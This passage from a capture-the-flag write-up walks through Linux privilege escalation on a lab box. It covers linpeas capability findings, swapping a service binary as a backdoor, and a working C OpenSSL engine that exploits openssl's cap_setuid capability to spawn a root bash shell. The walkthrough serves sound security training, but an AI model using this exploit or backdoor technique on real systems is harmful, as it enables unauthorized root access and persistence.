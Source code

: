 ```
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep is writable

```

We know we can reliably get root using the CVE-2021-4034 exploit via `metasploit`, but we know this is not the intended privesc path for the CTF. 

Next point of interest is the .service files. Reviewing the link provided in the linpeas output (https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services) it appears as though we can modify or replace the binary under the `mindgames` control that runs as a service as a way of creating a backdoor into the server. This allows us to persist our presence another way to the ssh keys technique we used above. This is interesting but doesn't appear to be a way for us to escalate our privileges. 

The other item we noted in the linpeas output was the opensll cap_setuid+ep. With openssl having the setuid capability set, if we can execute arbitrary code via openssl, we will be able to utilise it to set our uid to that of root. 

Some googling for `openssl cap_setuid+ep exploit`, it seems there is a method to execute arbitrary code and exploit the cap_setuid+ep. 

https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

## Openssl setuid capability privesc attack

Following the [blog post](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/) we begin by writing our own openssl engine that will run our exploit code to set our uid as root and spawn a bash shell. 

If you haven't already, you'll need the `build-essential` packages to compile C code for linux. Run the following command on your local machine:

```
sudo apt install build-essential
```

Next you'll need to ensure you have the ssl developer libraries and headers to compile the openssl engine. Run the following command on your local machine:

```
sudo apt install libssl-dev
```
We all the prerequisites, lets code our exploit. 

Create a new C file on your local machine `ssl-setuid.c`.

In the file write the following C code:
```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()   
```

